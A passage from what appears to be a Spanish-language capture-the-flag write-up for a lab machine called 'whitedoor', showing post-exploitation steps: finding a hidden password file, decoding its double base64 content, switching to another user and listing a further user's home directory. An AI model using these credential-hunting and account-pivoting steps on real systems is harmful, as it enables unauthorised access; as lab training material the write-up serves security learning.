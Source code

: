 ~~~bash

./Downloads:
total 8
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16 17:08 .
drwxr-xr-x 9 whiteshell whiteshell 4096 Nov 17 18:47 ..

./Music:
total 8
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16 17:08 .
drwxr-xr-x 9 whiteshell whiteshell 4096 Nov 17 18:47 ..

./Pictures:
total 8
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16 17:08 .
drwxr-xr-x 9 whiteshell whiteshell 4096 Nov 17 18:47 ..

./Public:
total 8
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16 17:08 .
drwxr-xr-x 9 whiteshell whiteshell 4096 Nov 17 18:47 ..
~~~

Hemos descubierto un fichero oculto que parece interesante:

~~~
www-data@whitedoor:/home/whiteshell$ cat Desktop/.my_secret_password.txt
whiteshell:VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K
~~~

Parece que está en base64, vamos a decodificarlo:

~~~bash
❯ echo "VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K" | base64 -d
VGgxc0lzVGgzUDRzU3dPckRibGFjNQo=
❯ echo "VGgxc0lzVGgzUDRzU3dPckRibGFjNQo=" | base64 -d
Th1sIsTh3P4sSwOrDblac5
~~~

Bien, parece que ya podemos pivotar al usuario *whiteshell*, de esta forma, ahora ya podemos revisar el directorio de *Gonzalo* porque teníamos permisos de grupo:

~~~bash
www-data@whitedoor:/home/whiteshell$ su whiteshell
Password: 
whiteshell@whitedoor:~$ cd ../Gonzalo/
whiteshell@whitedoor:/home/Gonzalo$ ls -laR
.:
total 52
drwxr-x--- 9 Gonzalo whiteshell 4096 Nov 17 18:11 .
drwxr-xr-x 4 root    root       4096 Nov 16 16:58 ..
-rw------- 1 Gonzalo Gonzalo     718 Nov 17 20:06 .bash_history
-rw-r--r-- 1 Gonzalo Gonzalo     220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 Gonzalo Gonzalo    3526 Apr 23  2023 .bashrc
drwxr-xr-x 2 root    Gonzalo    4096 Nov 17 19:26 Desktop
drwxr-xr-x 2 root    Gonzalo    4096 Nov 16 21:04 Documents
drwxr-xr-x 2 root    Gonzalo    4096 Nov 17 18:09 Downloads
drwxr-xr-x 3 Gonzalo Gonzalo    4096 Nov 16 17:03 .local
drwxr-xr-x 2 root    Gonzalo    4096 Nov 17 18:11 Music
drwxr-xr-x 2 root    Gonzalo    4096 Nov 17 18:07 Pictures
-rw-r--r-- 1 Gonzalo Gonzalo     807 Apr 23  2023 .profile
drwxr-xr-x 2 root    Gonzalo    4096 Nov 17 18:09 Public

./Desktop:
total 16
drwxr-xr-x 2 root    Gonzalo    4096 Nov 17 19:26 .
drwxr-x--- 9 Gonzalo whiteshell 4096 Nov 17 18:11 ..
-r--r--r-- 1 root    root         61 Nov 16 20:49 .my_secret_hash
~~~